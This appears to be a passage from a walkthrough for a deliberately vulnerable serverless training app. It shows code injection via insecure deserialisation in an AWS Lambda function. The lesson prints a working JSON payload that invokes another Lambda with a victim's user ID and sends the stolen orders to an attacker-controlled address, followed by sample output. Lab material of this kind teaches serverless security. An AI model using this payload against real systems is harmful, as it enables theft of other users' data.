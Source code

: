## LESSON #1: Event Injection

### (1.1) Code Injection via API Gateway
The application sends all request to an API GW (*https://{string}.execute-api.{region}.amazonaws.com/{stage}/order*). 
All reqursts end up being handled by Lambda function, which invokes another lambda based on the incoming request.

**This function is vulnerable to Code Injection**. The function uses an insecure de-/serialization for the data in the request.

Using the following payload, it is possible to inject code that will be executed by the functioin.
```$$ND_FUNC$$_function (){}()```

For example, to get the orders of another user, we can send the payload:
```
{"action": "_$$ND_FUNC$$_function(){var aws=require(\"aws-sdk\");var lambda=new aws.Lambda();var p = {FunctionName: \"DVSA-ORDER-ORDERS\", InvocationType: \"RequestResponse\", Payload: JSON.stringify({\"user\": \"12312312-1233-1233-1233-123123123123\"})};lambda.invoke(p,function(e,d){ var h=require(\"http\");h.get(\"<ATTACKER_REMOTE_ADDRESS>\"+JSON.stringify(d));}); }()", "cart-id":""}
```
Where the *12312312-1233-1233-1233-123123123123* is the user-id of the user we want to steal the data from, and *<ATTACKER_REMOTE_ADDRESS>* is any address that we can send the data to. E.g. [ngrok](https://ngrok.com/).

The result will be a url-encoded json with the order information we stole:
![alt ngrok](https://i.imgur.com/RjT10B4.png)

After decode it, we get a JSON with the user orders. For example:
```
{"StatusCode":200,"ExecutedVersion":"$LATEST","Payload":"{\"status\": \"ok\", \"orders\": [{\"date\": 0, \"status\": \"100\", \"total\": 0, \"order-id\": \"37e149f9-7fd5-4eff-8214-39ed05305d29\"}, {\"date\": 0, \"status\": \"100\", \"total\": 0, \"order-id\": \"01c9f783-1ddd-42b4-b6e4-d8dfe18b7807\"}, {\"date\": 0, \"status\": \"100\", \"total\": 0, \"order-id\": \"5679749f-7a44-4c15-b8db-360a988e82e7\"}, {\"date\": 0, \"status\": \"100\", \"total\": 0, \"order-id\": \"fff385ef-0000-fafa-0000-87ee1047dfff\"}]}"}
```

The above exmaple is the least of problems you can do with such an attack. Notice that there also admin functions :)



### (1.2) Command Injection via S3 bucket
